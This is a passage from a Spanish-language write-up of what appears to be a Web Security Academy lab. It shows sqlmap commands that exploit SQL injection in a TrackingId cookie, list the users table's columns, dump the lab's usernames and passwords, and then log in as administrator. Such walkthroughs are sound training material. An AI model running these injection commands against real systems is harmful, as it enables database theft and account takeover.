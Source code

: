 `Listamos` las `columnas` de la `tabla users`

```
# sqlmap -u https://0a8c0022048b993981c20d0000b3004b.web-security-academy.net/ --risk=3 --level=5 --random-agent --batch --cookie="TrackingId=cbe7PxDUL4ndHDEm*; session=tcqLKIJ7VfzFA4XY90eUV0wgtK1d8NrT" --threads 2 -D public -T users --columns
Database: public
Table: users
[3 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| email    | varchar |
| password | varchar |
| username | varchar |
+----------+---------+
```

`Listamos` el `contenido` de las columnas `username` y `password`

```
# sqlmap -u https://0a8c0022048b993981c20d0000b3004b.web-security-academy.net/ --risk=3 --level=5 --random-agent --batch --cookie="TrackingId=cbe7PxDUL4ndHDEm*; session=tcqLKIJ7VfzFA4XY90eUV0wgtK1d8NrT" --threads 2 -D public -T users -C username,password --dump
Database: public
Table: users
[3 entries]
+---------------+----------------------+
| username      | password             |
+---------------+----------------------+
| carlos        | bjv4v0umawo81xpuabf3 |
| wiener        | cwkdrxvxt29va31jyffo |
| administrator | iqmve5i0fvgzejvklope |
+---------------+----------------------+
```

Nos `logueamos` usando las credenciales `administrator:iqmve5i0fvgzejvklope`

![[image_3.png]]

![[image_4.png]]
